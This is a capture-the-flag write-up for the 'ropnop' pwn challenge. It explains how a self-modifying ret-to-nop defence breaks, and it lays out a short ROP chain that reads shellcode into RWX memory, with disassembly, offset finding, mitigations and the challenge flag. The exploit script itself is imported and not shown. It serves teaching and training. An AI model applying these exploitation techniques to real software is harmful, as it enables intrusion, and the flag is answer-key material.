 ```yaml
---
html:
  embed_local_images: true
  embed_svg: true
  offline: true
export_on_save:
  html: true
print_background: true
---
```

@import "../style.less"

# ropnop - localo


**Category:** Pwn       
**Difficulty:** Medium        
**Author:** Flo      

## Description
>heard about this spooky exploitation technique called ROP recently.
>
>These haxxors don't know who they're dealing with though. With ropnop™, I made sure that nobody can exploit my sketchy C code!
>
>Here's a demo:
>
>nc hax1.allesctf.net 9300

## Summery
Running the binary we get some output that says that all return between start and and are defused.
```
[defusing returns] start: 0x562cb92dc000 - end: 0x562cb92dd375
```
After that the program segfaults.

## Solution

<style>
.code0 .line-numbers-rows > span:nth-child(1){
	counter-reset: linenumber 40;
}

.code1 .line-numbers-rows > span:nth-child(1){
	counter-reset: linenumber 17;
}
.code2 .line-numbers-rows > span:nth-child(1){
	counter-reset: linenumber 26;
}

.ansi2html-content{
	background-color: transparent !important;
	padding: 0;
}
body > div > div{
	background-color: #323232;
	padding: 1em;
}
</style>
@import "ropnop.c" {as="c" class="line-numbers code0" line_begin=40 line_end=47}
The main function explains the segfault:
It reads 0x1337 bytes onto the stack (overwriting the return address) and returns.

But before that it calls `ropnop`
@import "ropnop.c" {as="c" class="line-numbers code2" line_begin=26 line_end=39}
This function maps the `.text` section as `Read/Write/Execute` and replaces every `ret` instruction (0xc3) with a `nop` (0x90).
The symbols `__executable_start` and `etext` are provided by the linker. But why does this function return? This is a quite hard bug to spot, but when replacing every `0xc3` with `0x90` it will replace the `0xc3` in the comparison as soon as the `ropnop` function is hit resulting in this code: 
```C
void ropnop() {
	unsigned char *start = &__executable_start;
	unsigned char *end = &etext;
	printf("[defusing returns] start: %p - end: %p\n", start, end);
	mprotect(start, end-start, PROT_READ|PROT_WRITE|PROT_EXEC);
	unsigned char *p = start;
	while (p != end) {
		// if we encounter a ret instruction, replace it with nop!
		if (*p == 0x90)
			*p = 0x90;
		p++;
	}
}
```
After this has happened the program will replace every `nop` with a `nop` and therefore do nothing. All `ret` instructions after this address will stay as they are. And the program will return to main.

@import "ropnop.c" {as="c" class="line-numbers code1" line_begin=17 line_end=25}
The program contains a function called `gadget_shop`. It contains nice ROP gadgets, but the `ropnop` function does overwrite the `ret` instructions, because the address is before the check. We can't use them for our chain.

But we can use all gadgets after the address of the `cmp ecx, 0xc3` (0x1270) here are the gadgets listed:
@import "gadgets.txt" {as="Python"}
The gadgets are quite powerful we could use `return-to-csu` to leak libc and do `pop rdi, ret; system` [instructions](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf), but as the `.text` section is already mapped `RWX`, I decided to just write my shellcode to it and jump into that. 
![](ropnop.png)

The ROP chain is very short:
```bash
__executable_start+0x60:	#rbp (junk)
__executable_start+0x1351:  pop rsi, pop r15, ret
__executable_start:			# rsi
0x00:						# r15
__executable_start+0x12ca	mov edx, 0x1337, call read, <junk>, add rsp, 0x20, pop rbp, ret # read 0x1337 bytes into __executable_start (our shellcode)
0x00 (0x20 times):			# padding for rsp
0x00:						# junk for pop rbp
__executable_start:			# jump to shellcode
```

```NASM
00000000000012a0 <main>:
    12a0:       55                      push   rbp
    12a1:       48 89 e5                mov    rbp,rsp
    12a4:       48 83 ec 20             sub    rsp,0x20
    12a8:       c7 45 fc 00 00 00 00    mov    DWORD PTR [rbp-0x4],0x0
    12af:       e8 bc fe ff ff          call   1170 <init_buffering>
    12b4:       e8 47 ff ff ff          call   1200 <ropnop>
    12b9:       31 ff                   xor    edi,edi
    12bb:       48 8d 45 f0             lea    rax,[rbp-0x10]
    12bf:       48 89 45 f0             mov    QWORD PTR [rbp-0x10],rax
    12c3:       48 8b 45 f0             mov    rax,QWORD PTR [rbp-0x10]
    12c7:       48 89 c6                mov    rsi,rax
    12ca:       ba 37 13 00 00          mov    edx,0x1337;  <-- we jump here
    12cf:       e8 6c fd ff ff          call   1040 <read@plt>
    12d4:       31 c9                   xor    ecx,ecx
    12d6:       48 89 45 e8             mov    QWORD PTR [rbp-0x18],rax
    12da:       89 c8                   mov    eax,ecx
    12dc:       48 83 c4 20             add    rsp,0x20
    12e0:       5d                      pop    rbp
    12e1:       c3                      ret
```

We can get the right offset for the overflow by using `cyclic_find`:
```shell
$ ./rop.py debug buffer_overflow
[...]
cyclic: 0x61616167
```
And we get the leak for free in the output the program.

@import "flag.txt" {as=shell}

## Code
@import "rop.py"

## Mitigation
- use stack cookies
- remap the memory as read only after the modification
- don't allow stack-overflows in your code

## Flag
CSCG{s3lf_m0d1fy1ng_c0dez!}